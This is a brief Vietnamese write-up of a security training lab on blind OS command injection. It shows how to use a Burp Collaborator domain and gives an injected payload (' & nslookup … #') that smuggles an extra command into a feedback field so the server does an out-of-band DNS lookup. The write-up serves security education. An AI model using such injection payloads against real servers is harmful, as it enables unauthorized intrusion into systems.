


# Lab: Blind OS command injection with out-of-band interaction

## Mô tả lab

Trong bài này, mục tiêu là khiến server thực hiện một DNS lookup tới Burp Collaborator.

## Các bước thực hiện

## Phân tích chức năng feedback

Giống bài lab:

- **Lab Blind OS command injection with time delays**

## Tạo Burp Collaborator

Lấy một Collaborator domain.

```text
0mnfwjq6c0jr6rnwg2r8uq1xxo3fr5fu.oastify.com
```

Domain này sẽ được dùng trong payload để kiểm tra server có thực hiện DNS lookup ra ngoài hay không.

## Tạo payload OOB

Để tạo DNS lookup, có thể dùng lệnh:

```bash
nslookup 0mnfwjq6c0jr6rnwg2r8uq1xxo3fr5fu.oastify.com
```

-> ` & nslookup 0mnfwjq6c0jr6rnwg2r8uq1xxo3fr5fu.oastify.com #`



Quay lại Burp Collaborator và Poll now:




Lab solved.